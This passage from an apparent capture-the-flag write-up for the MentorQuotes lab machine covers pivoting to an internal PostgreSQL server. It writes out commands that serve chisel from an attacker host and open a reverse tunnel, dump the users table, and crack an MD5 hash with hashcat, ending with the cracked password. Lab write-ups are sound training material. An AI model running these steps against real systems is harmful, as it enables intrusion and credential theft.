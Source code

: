 - Looking around we find different interesting files.
- The `/app/app/db.py` shows the database url `os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")`
> Note that here we get connection string to the db. The username and pass are `postgres:postgres`

### Postgresql

- With a quick search we can find that default postreSQL port is 5432.
- We could try our luck there.
- We will need [chisel](https://github.com/jpillora/chisel). This tool is my favorite for when I need to tunnel or pivot. It really helped me a lot when I was working on Dante prolab. If you do not like this one there are other alternatives out there like [sshuttle](https://github.com/sshuttle/sshuttle) or [socat](https://www.kali.org/tools/socat/).
- To install chisel on your kali `curl https://i.jpillora.com/chisel! | bash`
- Then you will need to put a chisel binary in your target
- `wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz` get it in your kali
- `gzip -d chisel_1.7.7_linux_amd64.gz` extract it
- `python3 -m http.server 80` start your python serv
- `wget http://10.10.14.5/chisel_1.7.7_linux_amd64` get it from the target
- `chmod +x chisel_1.7.7_linux_amd64` make it executable
- Now we need to launch a chisel server in our kali `sudo chisel server --port 5555 --reverse`  
![chisel server](../.res/2022-12-27-10-38-59.png)  
- `./chisel_1.7.7_linux_amd64 client -v 10.10.14.5:5555 R:5432:172.22.0.1:5432` we forward the postgresql port to be able to access it in our kali  
![chisel client](../.res/2022-12-27-10-42-11.png)  
- `psql -h 10.10.14.5 -U "postgres" -p 5432` let's try to connect to the database. If you need a refresh on postgresql [here](https://hasura.io/blog/top-psql-commands-and-flags-you-need-to-know-postgresql/) is a nice article 
- `\l` list the database  
![list db](../.res/2022-12-27-10-47-04.png)  
- `\c mentorquotes_db` we connect to the db we want
- `select * from "users";`  
![table users](../.res/2022-12-27-10-52-58.png)  
- Let's crack svc password in hashcat `hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`
- We get this password `53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani`